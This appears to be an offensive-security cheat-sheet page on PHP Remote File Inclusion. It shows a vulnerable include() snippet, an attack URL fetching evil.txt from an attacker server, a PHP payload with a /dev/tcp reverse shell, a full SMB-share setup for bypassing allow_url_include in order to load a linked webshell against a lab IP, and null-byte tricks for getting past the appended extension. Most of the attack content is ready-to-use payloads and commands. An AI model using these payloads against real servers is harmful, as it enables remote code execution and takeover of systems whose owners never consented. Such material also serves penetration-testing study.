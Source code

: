 # Remote File Inclusion \(RFI\)

Remote file inclusion uses pretty much the same vector as local file inclusion.

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine.

RFI's are less common than LFI. Because in order to get them to work the developer must have edited the `php.ini` configuration file.

This is how they work.

So you have an unsanitized parameter, like this

```text
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.

```text
http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
```

And evil.txt will look like something like this:

```text
<?php echo shell_exec("whoami");?>

# Or just get a reverse shell directly like this:
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```

So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have a RCE.

### Serving with SMB to bypass PHP config "allow\_url\_include" 

"allow\_url\_include" wrapper by-default set to "Off" which instruct PHP not to load remote HTTP or FTP URLs and hence prevent Remote File Inclusion attack. But, PHP does not block SMB URL loading even if "allow\_url\_include" and "allow\_url\_fopen" both are set to "Off". **This behaviour of PHP can be abused to load remotely hosted PHP web shell from SMB share.** set up an SMB share: 

```text
mkdir /var/www/html/pub/ 
chmod 0555 /var/www/html/pub/
chown -R nobody:nogroup /var/www/html/pub/
echo > /etc/samba/smb.conf  # Remove all SMB config
```

Now, edit the sambaconfig and insert the following:

```text
	[global]
	workgroup = WORKGROUP
	server string = Samba Server %v
	netbios name = indishell-lab
	security = user
	map to guest = bad user
	name resolve order = bcast host
	dns proxy = no
	bind interfaces only = yes
	
	[ica]
	path = /var/www/html/pub
	writable = no
	guest ok = yes
	guest only = yes
	read only = yes
	directory mode = 0555
	force user = nobody
```

Now, we want to host a php shell in the samba directory: I used this for now, decent shell: [https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php) 

Go back to browser and call the shell: [http://10.10.10.151/blog/?lang=\\10.10.14.22\ica\webshell.php](http://10.10.10.151/blog/?lang=\\10.10.14.22\ica\webshell.php)

### Avoid extentions <a id="avoid-extentions"></a>

Remember to add the nullbyte `%00` to avoid appending `.php`. This will only work on php before version 5.3.

If it does not work you can also add a `?`, this way the rest will be interpreted as url parameters.

